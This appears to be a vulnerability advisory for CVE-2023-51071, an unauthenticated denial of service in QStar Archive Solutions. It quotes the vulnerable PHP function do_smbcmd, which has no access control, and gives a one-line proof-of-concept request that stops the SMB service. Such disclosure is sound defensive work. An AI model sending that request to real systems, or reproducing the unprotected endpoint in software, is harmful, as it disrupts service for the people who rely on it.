> [Suggested description]
> An access control issue in QStar Archive Solutions Release RELEASE_3-0
> Build 7 Patch 0 allows unauthenticated attackers to arbitrarily disable
> the SMB service on a victim's Qstar instance by executing a specific
> command in a link.
>
> ------------------------------------------
>
> [VulnerabilityType Other]
> Unauthenticated Denial Of Service
>
> ------------------------------------------
>
> [Vendor of Product]
> QStar
>
> ------------------------------------------
>
> [Affected Product Code Base]
> QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0
>
> ------------------------------------------
>
> [Affected Component]
> do_smbcmd
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Denial of Service]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> An attacker may execute a specifically crafted link to stop the SMB service.
>
> ------------------------------------------
>
> [Discoverer]
> Sean Bales
>
> ------------------------------------------
>
> [Reference]
> http://qstar.com

## CVE-2023-51071

### Description
An access control issue in QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 allows unauthenticated attackers to arbitrarily disable the SMB service on a victim's Qstar instance by executing a specific command in a link.

### Vulnerability Type
Unauthenticated Denial Of Service

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
An attacker may execute a specifically crafted link to stop the SMB service.

### PoC

> Vulnerable code - /main.php
```php
function do_smbcmd()
{
	$s = $_GET['s'];

	if (($s == 'start')
			|| ($s == 'stop')
			|| ($s == 'restart')
			|| ($s == 'reload'))
	{
		$result = sys_smb_start($s);

		if ($result === true)
			echo "0";
		else
			echo gettype($result) . "-Error ($result->errno): $result->errmsg";

		return;
	}

	echo "Illegal command.";
}
```

As shown above, no access controls exist, we can leverage the stop command as an unauthenticated user to stop the server.

`/do_smbcmd?s=stop`